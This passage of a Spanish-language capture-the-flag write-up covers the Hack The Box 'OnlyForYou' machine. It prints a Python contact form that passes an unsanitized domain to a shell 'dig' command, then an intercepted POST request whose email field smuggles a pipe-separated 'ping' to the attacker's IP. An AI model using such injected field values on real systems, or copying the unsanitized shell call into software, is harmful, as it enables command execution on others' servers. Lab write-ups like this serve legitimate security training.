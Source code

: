 ```null
		msg = EmailMessage()
		msg['From'] = f'{email}'
		msg['To'] = 'info@only4you.htb'
		msg['Subject'] = f'{subject}'
		msg['Message'] = f'{message}'

		smtp = smtplib.SMTP(host='localhost', port=25)
		smtp.send_message(msg)
		smtp.quit()
		return status
	elif status == 1:
		return status
	else:
		return status
```

La variable ```domain``` no está sanitizada y se le está pasando a una función que ejecuta un comando a nivel de sistema

```null
result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
```

Intercepto la petición al enviar un mensaje

<img src="/writeups/assets/img/OnlyForYou-htb/3.png" alt="">

Inyecto un comando en el correo electrónico

```null
POST / HTTP/1.1
Host: only4you.htb
Content-Length: 79
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://only4you.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://only4you.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
name=test&email=test%40test.com|ping+-c+1+10.10.16.40&subject=test&message=test
```
